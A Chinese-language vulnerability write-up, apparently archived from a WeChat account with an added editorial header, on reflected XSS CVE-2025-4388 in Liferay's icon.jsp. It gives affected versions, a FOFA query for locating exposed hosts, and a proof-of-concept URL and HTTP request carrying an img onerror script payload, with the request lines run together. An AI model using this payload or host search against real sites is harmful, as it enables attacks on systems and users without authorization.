



# Liferay icon.jsp接口存在跨站漏洞CVE-2025-4388 附POC

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响icon.jsp对iconURL输出未转义、受害者访问恶意链接；浏览器/CSP等影响执行
- 证据范围：组件与参数明确，正确说明需要用户点击，代码主体仅反射XSS而非服务端RCE。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- HTTP请求全部黏为一行不可用，URL虽可读但需浏览器验证
- 多分支影响范围粘连，需结构化Portal与DXP不同版本体系
- 修复只最新版本，未给分支补丁及Liferay官方公告
- CVE/CNNVD/CNVD空字段冗余，大量付费工具广告；POC工具未实际包含

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

2025-6-5更新  南风漏洞复现文库   2025-06-05 15:16  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Liferay简介  
  
微信公众号搜索：南风漏洞复现文库  
  
该文章 南风漏洞复现文库 公众号首发  
  
Liferay  
## 2.漏洞描述  
  
攻击者可以通过注入恶意的 JavaScript 代码到 modules/apps/marketplace/marketplace-app-manager-web  
 中来利用此漏洞。此漏洞属于反射型 XSS，意味着攻击者需要诱使用户点击特定的链接或进行某些操作来触发漏洞。Liferay Portal 7.4.0 至 7.4.3.131 以及 Liferay DXP 2024.Q4.0 至 2024.Q4.5、2024.Q3.1 至 2024.Q3.13、2024.Q2.0 至 2024.Q2.13、2024.Q1.1 至 2024.Q1.12 和 7.4 GA 至更新 92 中存在的反射型跨站脚本 (XSS) 漏洞，允许远程非认证攻击者注入 JavaScript 到 modules/apps/marketplace/marketplace-app-manager-web  
 中。  
  
CVE编号:CVE-2025-4388  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
- • Liferay Portal: 7.4.0 至 7.4.3.131 - Liferay DXP: - 2024.Q4.0 至 2024.Q4.5 - 2024.Q3.1 至 2024.Q3.13 - 2024.Q2.0 至 2024.Q2.13 - 2024.Q1.1 至 2024.Q1.12 - 7.4 GA 至 92  
  
  
  
Liferay o/marketplace-app-manager-web/icon.jsp接口存在跨站漏洞  
  
## 4.fofa查询语句  
  
body="liferayPortalCSS"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/o/marketplace-app-manager-web/icon.jsp?iconURL=https:///%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E  
  
漏洞数据包：  
```http
GET /o/marketplace-app-manager-web/icon.jsp?iconURL=https:///%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```  
  
  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
  
  
2: 免登录，免费fofa查询。  
  
  
3: 更新其他实用网络安全工具项目。  
  
  
4: 免费指纹识别，持续更新指纹库。  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
## 7.整改意见  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
## 8.往期回顾  
  
  
   
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
